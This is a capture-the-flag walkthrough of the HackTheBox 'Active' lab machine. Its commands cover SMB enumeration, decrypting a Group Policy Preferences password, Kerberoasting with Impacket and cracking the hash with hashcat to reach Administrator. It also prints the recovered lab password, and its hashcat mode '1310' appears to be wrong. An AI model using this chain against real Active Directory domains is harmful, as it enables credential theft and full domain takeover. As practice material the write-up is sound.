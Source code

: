 # Active
A really interesting box to learn the basics of AD/Kerberos/Kerbroasting. There are a few different ways/tools to pwn this box, but here's what I believe to be one of the easiest ways.

![Active](../Images/htb_active_0.png)

**Tools: nmap, smbclient, smbmap, gpp-decrypt, ntpdate, hashcat, Impacket (GetADUsers.py and GetUserSPNs.py).**

We begin by running nmap to scan the target:  
`nmap -Pn -sC -sV -p- -T4 --min-rate=10000 10.10.10.100`

![Active](../Images/htb_active_1.png)

Quite a few open ports, but right away we see that this box runs an AD, has SMB/NetBIOS shares and runs on a Windows Server 2008. Also, the domain name is 'active.htb'.  
Let's enumerate SMB with smbmap:  
`smbmap -H 10.10.10.100`

![Active](../Images/htb_active_2.png)

So we have read access to 'Replication'. Let's take a look at its files and download them using smbclient:  

```
smbclient //10.10.10.100/Replication  
recurse ON  (so we can run the commands to interact with the share)  
prompt OFF  (so we can download the files without getting prompted to confirm)
```

![Active](../Images/htb_active_3.png)

With 'ls' we list the files and with 'mget\*' we download them all.  
In order to locate the downloaded files we can run 'updatedb', then we can locate a file that seems to be important, like 'Groups.xml'. This file has the 'Group Policy Preferences', and can be abused to leak users' passwords, just like below after 'cpassword'. We can also see the username 'svc_tgs'.

![Active](../Images/htb_active_4.png)

We can then decrypt the password using gpp-decrypt:

![Active](../Images/htb_active_5.png)

With all the information gathered, we can now run smbmap again, using the credentials we've just found:  
`smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100`

![Active](../Images/htb_active_6.png)

Now we can see that we've access to a few more shares. Let's go back to smbclient to test them:  
`smbclient //10.10.10.100/Users -U active.htb/svc_tgs`

![Active](../Images/htb_active_7.png)

At 'Users' we're able to find the 'user.txt' file containing the user flag.  
Next up, we can use Impacket's GetADUsers to see the users in this box:  
`python3 GetADUsers.py active.htb/svc_tgs -dc-ip 10.10.10.100 -all`

![Active](../Images/htb_active_8.png)

Now I'd recommend either HTB's Official Walktrough or a good Google research to read and understand about the basics of Kerberos and the Kerbroasting technique.  
We'll use Impacket's GetUserSPNs to find 'Service Principal Names' and try to extract the NTLM hash for the 'Ticket Granting Service' - below is the descryption of the process, as explained inside the tool:  
*"This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs."*   
```
python3 GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```

![Active](../Images/htb_active_9.png)

If, instead of the NTLM hash, you get an error containing "(Clock skew too great)", it's because the box has a different date/time than your VM, and this process requires a time difference of no more than 5 minutes (in some cases the limit can be of 1 minute). You can try using ntpdate and date to fix this:  
```
ntpdate 10.10.10.100  (you might need to install this tool with 'apt install' - take a look at the 'time')  
date  (to see the correct pattern for the date/time)  
date -s "date and time here"  (to set the date/time)  
```

![Active](../Images/htb_active_10.png)

And then run the GetUserSPNs again to extract the hash.  
We can crack this hash using hashcat and the wordlist 'rockyou.txt' - first, copy the hash ahd save it to a file called 'hash.txt':  
`hashcat -m 1310 hash.txt /usr/share/wordlists/rockyou.txt`

![Active](../Images/htb_active_11.png)

![Active](../Images/htb_active_12.png)

There you can see the 'Administrator' password. Now we can simply use smbclient once again to connect to the 'C$' share and grab the root flag from the Administrator's Desktop folder:  
`smbclient //10.10.10.100/C$ -U active.htb/Administrator`

![Active](../Images/htb_active_13.png)
